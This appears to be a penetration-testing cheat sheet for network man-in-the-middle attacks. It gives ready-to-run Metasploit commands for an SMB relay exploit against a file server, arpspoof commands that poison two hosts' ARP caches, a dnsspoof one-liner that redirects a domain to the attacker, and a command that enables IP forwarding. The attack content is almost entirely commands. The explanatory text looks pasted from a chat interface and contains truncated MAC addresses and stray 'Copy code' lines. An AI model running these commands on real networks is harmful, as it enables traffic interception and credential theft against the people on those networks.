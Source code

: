 ## MSFconsole for smb relay attack
```
search smb_relay
use 0
set SRVHOST $attacking_machine_ip
set LHOST $attacking_machine_ip
set SMBHOST $file_server_ip
exploit
```

## Arpspoof
### Spoofing command 
- Spoof $first_ip to convince $second_ip:$attacking_machine_mac
```
arpspoof -i eth1 -t $first_ip $second_ip
```
```
arpspoof -i eth1 -t 172.16.5.1 172.16.5.5
arpspoof -i eth1 -t 172.16.5.5 172.16.5.1
Spoofing Device 1 to Device 2

Attacker’s Machine sends ARP replies to Device 1 (IP 172.16.5.1), falsely claiming that Attacker’s MAC (AA:AA:AA:AA:AA
) is associated with IP 172.16.5.5.
Device 1 updates its ARP cache with this incorrect mapping:
ruby
Copy code
IP: 172.16.5.5 -> MAC: AA:AA:AA:AA:AA:AA
Spoofing Device 2 to Device 1

Attacker’s Machine also sends ARP replies to Device 2 (IP 172.16.5.5), falsely claiming that Attacker’s MAC (AA:AA:AA:AA:AA
) is associated with IP 172.16.5.1.
Device 2 updates its ARP cache with this incorrect mapping:
ruby
Copy code
IP: 172.16.5.1 -> MAC: AA:AA:AA:AA:AA:AA
```

## Dnsspoof
```
echo "$attacking_machine_ip *.sportsfoo.com" > dns;dnsspoof -i eth1 -f dns
```
## ip_forward
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```



